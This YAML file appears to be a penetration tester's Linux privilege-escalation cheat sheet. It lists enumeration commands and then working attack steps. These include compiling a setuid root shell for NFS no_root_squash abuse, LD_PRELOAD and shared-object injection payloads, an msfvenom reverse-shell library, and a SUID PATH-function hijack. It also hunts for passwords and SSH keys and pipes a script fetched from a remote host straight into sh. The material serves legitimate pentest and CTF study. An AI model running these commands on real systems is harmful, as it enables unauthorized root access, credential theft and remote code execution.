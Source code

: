 ```yaml
---
functions:
  privilege-escalation:
    - description: Simplistic and standard checklist for linux privilege escalation, in no particular order
      code: |
        Feel free to copy paste the entire listing below
        System Info Enum:
        - [ ] uname -a
        - [ ] cat /etc/issue
        - [ ] cat /etc/*-release
        - [ ] cat /proc/version
        - [ ] lsb_release -a
        - [ ] ps aux
        - [ ] lscpu
        - [ ] env
        - [ ] echo $PATH
        - [ ] sudo -l
        - [ ] hostname
        - [ ] mount
        - [ ] dpkg -l
        - [ ] cat /etc/fstab
        - [ ] ssh -V
        - [ ] /bin/lsblk
        - [ ] lsmod
        - [ ] sudo -V
        - [ ] ls -al /etc/iptables/* -R
        - [ ] ls -lah /etc/cron*
        - [ ] find / -iname *.bak 2>/dev/null
        - [ ] find / -iname *.backup 2>/dev/null

        User Enum:
        - [ ] whoami
        - [ ] id
        - [ ] cat /etc/passwd
        - [ ] cat /etc/group
        - [ ] history

        Network Enum:
        - [ ] ip a
        - [ ] ifconfig
        - [ ] /sbin/route
        - [ ] netstat -plant

        Task Scheduling:
        - [ ] cat /etc/crontab
        - [ ] cat /etc/cron.d/*
        - [ ] cat /var/spool/cron/crontabs/*
        - [ ] cat  /var/spool/cron/*
        - [ ] systemctl list-timers --all
        - [ ] grep "CRON" /var/log/cron.log
        - [ ] Is CRON running but you can't tell what??  process monitoring (below scripts)
              nohup bash ./procmon.sh > procs.txt &
              cat procs.txt
              https://github.com/unkn0wnsyst3m/scripts/blob/master/procmon.sh
              https://github.com/DominicBreuker/pspy   nohup ./pspy64 -p -i 1000 > out &
              https://cronitor.io/cron-reference/how-to-list-all-cron-jobs

        File Systems #NoRootSquash
        - [ ] cat /etc/exports | grep no_root_squash
              showmount -e <targetip>  #mount -o rw,vers=2 <targetip>:<mountable-folder> <localmount>
              echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c
              gcc shell.c -o shell; chmod +s+x shell --> add to share

        Password Hunting:
        - [ ] grep --color=auto -rnw '/' -ie "PASSWORD=" 2>/dev/null
        - [ ] locate pass | more
        - [ ] find / -name id_rsa 2>/dev/null
        - [ ] find . -type f -exec grep --color=auto -Hrnwie "PASSWORD" {} 2> /dev/null \;  #search specific folders
        - [ ] find / -iname *passw* 2>/dev/null
        - [ ] find / -iname *passw* 2>/dev/null | grep -v -E "/lib/systemd/|boot|/var/lib/dpkg/|/usr/share/|/usr/lib/"

        (Shared Library) LD_PRELOAD:
        - [ ] sudo -l  #--> is LD_PRELOAD in the sudo permissions?
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell_ldpreload.c
          gcc -fPIC -shared shell.c -o shell.so -nostartfiles
          msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=kali
          
          sudo LD_PRELOAD=/home/user/shell.so <BIN IN SUDO -l>

        (Shared Library) Hijack:
        - [ ] ls -al /etc/ld.so.conf.d/
        - [ ] ldd $(find / -perm -u=s -type f 2>/dev/null)  #look for paths you can edit and look for unlinked libraries
        - [ ] echo $LD_LIBRARY_PATH
              https://www.boiteaklou.fr/Abusing-Shared-Libraries.html

        SUID:
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null

        SUID CHILD PATH BINARY TAKEOVER:
        strings /usr/local/bin/suid-env2
            --> /usr/sbin/service apache2 start
        function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s+x /tmp/bash && /tmp/bash -p; }
        export -f /usr/sbin/service
        execute - /usr/local/bin/suid-env2

        CAPABILITIES:
        - [ ] getcap -r / 2>/dev/null

        SHARED OBJECT INJECTION:
        - [ ] strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
            --> open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
          https://github.com/unkn0wnsyst3m/scripts/blob/master/shell.c
          gcc -fPIC -shared shell.c -o /home/user/.config/libcalc.so -nostartfiles

          run setuid_bin

        FILE PERMISSION SEARCHING:
        - [ ] find / -type f -perm -2 2>/dev/null | grep -v "^/proc/"                     #world writable
        - [ ] find / -user root -perm -002 -type f 2>/dev/null | grep -v "^/proc/"     #world writable ownd by root
        - [ ] ls -al $(find / -perm -1000 -type d 2>/dev/null)   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
        - [ ] ls -al $(find / -perm -g=s -type f 2>/dev/null)    # SGID (chmod 2000) - run as the group, not the user who started it.
        - [ ] ls -al $(find / -perm -u=s -type f 2>/dev/null)    # SUID (chmod 4000) - run as the owner, not the user who started it.
        - [ ] find / -perm -u=s -type f -ls 2>/dev/null
        - [ ] find / -xdev -user root -perm -o+w -type f 2>/dev/null
        - [ ] find / -xdev -group admin -perm -o+w -type f 2>/dev/null
        

        QUICK WINS:
        - [ ] dpkg -l | grep nginx  # l.6.2 nginx (and earlier) and writable log dir with sudo suid CVE-2016-1247
          https://github.com/unkn0wnsyst3m/scripts/blob/master/nginx-CVE-2016-1247.sh
        - [ ] ps aux | grep mysqld  # running as root?
          https://mfnttps.github.io/mfnttps/mysql-code_exec/
        - [ ] cat /etc/exports | grep no_root_squash  #see above
        - [ ] groups | grep docker && ls -al /var/run/docker.sock
          https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket

    - description: LinPeas
      code: |
        curl http://10.10.10.10/linpeas.sh | sh
        cd /tmp; wget http://10.10.10.10/linpeas.sh && sh linpeas.sh

        sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
        cat < /dev/tcp/10.10.10.10/80 | sh #Victim

        # Output to file
        ./linpeas.sh -a > /dev/shm/linpeas.txt

    - description: Linux Exploit Suggester
      code: |
        perl linux-exploit-suggester.pl

          #############################
            Linux Exploit Suggester 2
          #############################

          Local Kernel: 2.6.32
          Searching 72 exploits...

          Possible Exploits
          [1] american-sign-language
              CVE-2010-4347
              Source: http://www.securityfocus.com/bid/45408
          [2] can_bcm
              CVE-2010-2959
              Source: http://www.exploit-db.com/exploits/14814

        ...
        ...

        Use the -k flag to manually enter a wildcard for the kernel/operating system release version.
        perl linux-exploit-suggester.pl -k 3



resources: |
  https://github.com/jondonas/linux-exploit-suggester-2/blob/master/linux-exploit-suggester-2.pl
  https://github.com/SecWiki/linux-kernel-exploits
  https://github.com/lucyoa/kernel-exploits
  https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
  #c-shell: echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > shell.c 
  #script: cp /bin/bash /tmp/shell && chmod +s /tmp/shell && chmod o+x /tmp/shell
---
```


